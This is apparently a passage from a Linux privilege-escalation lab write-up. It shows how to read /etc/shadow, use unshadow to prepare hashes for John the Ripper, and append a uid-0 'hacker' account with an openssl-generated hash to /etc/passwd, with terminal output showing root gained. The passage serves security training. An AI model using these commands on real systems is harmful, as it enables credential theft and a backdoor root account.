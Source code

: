 *reading the /etc/shadow file*

`nano /etc/shadow` will print the contents of the `/etc/shadow` file. We can now use the `unshadow` tool to **create a file crackable by John the Ripper**. To achieve this, `unshadow` needs both the `/etc/shadow` and `/etc/passwd` files.

```bash
unshadow /etc/passwd /etc/shadow > password.txt
```

*adding a user*

The other option would be to add a new user that has root privileges. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:

We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.

```bash
$ openssl passwd -1 -salt THM password1
$1$THM$WnbwlliCqxFRQepUTCkUT1
```

We will then add this password with a username to the `/etc/passwd` file by including this line at the end of the file.

```
hacker: $1$THM$WnbwlliCqxFRQepUTCkUT1:0:0:root:/root:/bin/bash
```

Once our user is added we will need to switch to this user and hopefully should have root privileges.

```bash
user@debian:~$ id
uid=1000(user) gid=1000(user) groups=1000(user), 24(cdrom), 25(floppy), 29(audio),30 (dip), 44(video), 46 (plugdev) 
user@debian:~$ whoami
user
user@debian:~$ su hacker
Password: 
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# whoami
root
root@debian:/home/user#
```

### Capabilities

Another method system administrators can use to increase the privilege level of a process or binary is “**Capabilities**”. 

Capabilities help manage *privileges at a more granular level*. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
